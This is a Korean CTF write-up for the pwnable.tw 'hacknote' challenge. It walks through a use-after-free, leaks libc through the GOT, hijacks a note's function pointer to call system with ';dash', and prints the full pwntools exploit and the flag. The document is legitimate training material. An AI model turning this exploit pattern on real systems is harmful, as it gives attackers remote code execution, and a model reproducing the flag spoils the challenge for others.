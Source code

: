 ```yaml
---
layout: post
title: "[pwnable.tw] hacknote 풀이"
date: 2018-08-01 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```


>## hacknote [200 pts]
### A good Hacker should always take good notes!
### `nc chall.pwnable.tw 10102`
### [hacknote](https://pwnable.tw/static/chall/hacknote)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/hacknote/01.png)
{: refdef}

평범평범

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/hacknote/02.png)
{: refdef}

UAF!

{: refdef: style="text-align: center;"}
![func_alloc](/img/pwnable.tw/hacknote/03.png)
{: refdef}

우선 func_add를 보면 특이하게 `puts_next`라는 함수를 청크에 넣어주네요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/04.png)
{: refdef}

`puts`의 인자가 특이하네요. 아마 `func_print`에서 쓰려고 넣어둔거 같아요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/05.png)
{: refdef}

`func_delete`는 별거 없고 `func_print`를 보면 `(*note_list[v1])(note_list[v1])`으로 위에서 본 `puts_next`를 사용해서 출력하네요.

- - -
# 0x01. 취약점 증명

우선 `UAF`가 잘 되는지 봐야하니까 대충 아무 값이나 넣어서 확인해 볼게요.

```python
def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))
```

함수 선언

```python
func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

func_add(8, "C"*8)
func_print(0)
```
{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/06.png)
{: refdef}

타란!

이제 	`puts_next`자리에 다른 함수의 주소를 넣거나 `puts_next`의 인자를 바꾸거나 등을 할 수 있어요.

- - -
# 0x02. 공격 방법

1. memory leak

2. `puts_next`대신 `system`을 넣음

3. 인자를 조절해 `system("/bin/sh")` 실행


처음엔 memory leak부터 해야해요.

그러니까 `puts_next`는 일단 가만히 두고 그 인자로 `puts_got`를 넣을게요.

```python
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/07.png)
{: refdef}

"/bin/sh"의 주소를 안 구하는 이유는 아까 위에서 본 함수 호출 방식 때문이에요.

`puts_next`는 `*(al+4)`를 사용해서 인자를 받아서 상관없었는데 `puts_next`대신 `system`을 넣으면 `system(real_system~~~~)` 이런식으로 실행이 되어서 "/bin/sh" 문자열의 주소가 아닌 문자열 그 자체를 넣어줘야해요.

그리고 `system(real_system;/bin/sh\0)` 이런식으로 세이콜론을 사용해서 `system("/bin/sh")`를 실행시킬거라서 12자가 넘어가요. 그러면 다른 위치로 청크를 만들어서 `UAF`가 발생하지 않아요.

그래서 "/bin/sh"대신 "sh", "dash", "bash" 등을 사용해야해요.

- - -
# 0x03. 익스플로잇

"sh"는 안돼서 "dash"로 했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10102

s = remote(HOST, PORT)

elf = ELF("./hacknote")
#libc = ELF("./libc-2.27.so")
libc = ELF("./libc_32.so.6")
pause()

puts_next = 0x0804862b
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)

payload = p32(real_system)
payload += ";dash"

func_delete(2)
func_add(12, payload)
func_print(0)

s.interactive()
```

### FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
